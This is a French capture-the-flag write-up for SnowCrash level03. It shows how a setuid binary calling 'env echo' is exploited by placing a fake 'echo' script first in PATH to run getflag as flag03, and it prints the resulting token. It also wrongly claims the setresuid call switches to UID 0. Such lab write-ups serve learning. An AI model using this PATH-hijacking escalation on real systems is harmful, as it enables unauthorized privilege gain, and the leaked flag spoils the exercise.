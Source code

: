 # Level03

</br></br>

## Rechercher et exécuter le fichier

```zsh
level03@SnowCrash:~$ ls -al
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
level03@SnowCrash:~$ ./level03
Exploit me
```

Dans ce cas, lors de l'exécution d'un fichier avec la permission s, il est exécuté avec la permission détenue par ce fichier, donc
Lorsqu'il est exécuté, il est identique à flag03 exécuté.
En d'autres termes, vous n'avez pas besoin de trouver le mot de passe pour faire su flag03.

</br></br>

## ltrace

ltrace est l'une des commandes disponibles sous Linux. C'est un programme, pas une fonction.

ltrace est un outil qui trace et affiche le comportement des fonctions de la bibliothèque appelées par un fichier exécutable. Par conséquent, il peut être utilisé pour le débogage ou l'analyse en traçant les appels de fonction, les paramètres et les valeurs de retour dans un fichier exécutable.

```zsh
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                            = 2003
geteuid()                                                                                            = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                  = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                               = 0
+++ exited (status 0) +++
```

```zsh
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                        = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                                                        = 0
```

c'est quoi 0 pour user id?

```zsh
level03@SnowCrash:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash // here!!!!!!!!!!
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

cela veut dire, on peut executer ce fichier avec user id 2003, mais user id est changé comme 0 (root)

donc, dedans, je vais mettre "getflag" cmd!
</br></br>

## /usr/bin/env

/usr/bin/env est une commande utilisée sous Unix et Linux, et trouve le chemin du programme à exécuter à partir des variables d'environnement et l'exécute.
En d'autres termes, je peux régler l'écho séparément.

En d'autres termes, mettez getflag dans echo et exécutez-le.

</br></br>

## getflag

```zsh
level03@SnowCrash:~$ whereis getflag
getflag: /bin/getflag
```

</br></br>

## Créez un fichier écho et placez le chemin devant PATH

```zsh
level03@SnowCrash:~$ mkdir /tmp/level03
level03@SnowCrash:~$ vim /tmp/level03/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/level03/echo
level03@SnowCrash:~$ export PATH="/tmp/level03:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
